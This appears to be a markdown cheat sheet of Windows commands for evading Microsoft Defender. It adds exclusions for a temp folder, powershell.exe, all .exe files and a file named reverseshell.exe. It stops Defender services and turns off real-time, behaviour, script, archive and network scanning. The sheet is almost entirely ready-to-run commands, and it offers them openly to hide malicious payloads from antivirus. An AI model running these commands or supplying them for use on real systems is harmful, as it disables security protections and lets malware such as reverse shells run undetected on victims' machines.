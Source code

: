 # 01 - Manual

## 1.1 - Basic Commands

### 1.1.1 - Add Exclusions

- **Note:** You must run this as administrator add any exclusions

`PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp`

`PS C:\> Add-MpPreference -ExclusionProcess powershell.exe`

`PS C:\> Add-MpPreference -ExclusionExtension ".exe"`

`PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp\reverseshell.exe`

### 1.1.2 - Windows Defender

#### 1.1.2.1 - Disable

##### 1.1.2.1.1 - Command Prompt

`C:\> net stop "Security Center"`

- **Note:** Just the rest of these are not tested just yet

`C:\> net stop "WdNisSvc"`

`C:\> net stop "WdNisDrv"`

`C:\> net stop "WdFilter"`

`C:\> net stop "WdBoot"`

`C:\> net stop "wcncsvc"`

##### 1.1.2.1.2 - Powershell

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableBehaviorMonitoring $true

Set-MpPreference -DisableIntrusionPreventionSystem $true

Set-MpPreference -DisableIOAVProtection $true

Set-MpPreference -DisableScriptScanning $true

Set-MpPreference -DisableArchiveScanning $true

Set-MpPreference -DisableCatchupFullScan $true

Set-MpPreference -DisableCatchupQuickScan $true

Set-MpPreference -DisableEmailScanning $true

Set-MpPreference -DisableRemoveableDriveScanning $true

Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan $true

Set-MpPreference -DisableScanningNetworkFiles $true

Set-MpPreference -DisableBlockAtFirstSeen $true
```
